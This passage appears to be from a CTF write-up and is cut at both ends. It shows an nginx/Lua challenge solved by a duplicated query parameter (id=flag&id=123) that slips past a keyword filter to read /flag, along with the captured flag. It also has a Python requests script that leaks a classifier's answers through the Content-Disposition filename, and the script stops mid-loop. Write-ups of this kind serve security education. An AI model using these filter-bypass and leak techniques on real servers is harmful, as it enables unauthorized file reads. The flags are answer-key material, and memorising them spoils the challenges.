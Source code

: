 Challenge:
```lua
location /vuln {
    content_by_lua_block {
            ngx.req.read_body();
            local arg = ngx.req.get_uri_args();
            for k,v in pairs(arg) do
                    if v == "flag" then
                            ngx.say("This is pwn challange, use power of gods");
                            return -1;
                    end
            end
            ngx.say(arg.id);
            if ngx.var.arg_id == "flag" then
                    file = io.open("/flag", "r");
                    io.input(file);
                    ngx.say(io.read());
                    io.close();
            end
    }
}
```

Solve: http://35.246.170.233:31310/vuln?id=flag&id=123

Flag: **CTF{0a6b6873077437385ee7ab493dd94f69b262b727f5a8e404635631b1abbe361d}**

<a name="misc"></a>
## misc (70 pts, 44 solves) - Misc

Description:
```
Test your knowledge in artificial intelligence!

Flag Format: CTF{sha256}
```

Unintended solution: leak filename (which contains M or F output) using Content-Disposition header

```py
import requests
import re

import time

session = requests.session()

for i in range(100):
    burp0_url = "http://34.141.67.197:30311/"
    r = session.get(burp0_url)

    print(r.text)

    regex = 'src="(.*?)"'

    chall = re.findall(regex, r.text)[0]

    burp0_url = "http://34.141.67.197:30311/" + chall
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    r = session.get(burp0_url)

    male = '_M_' in r.headers['Content-Disposition']
```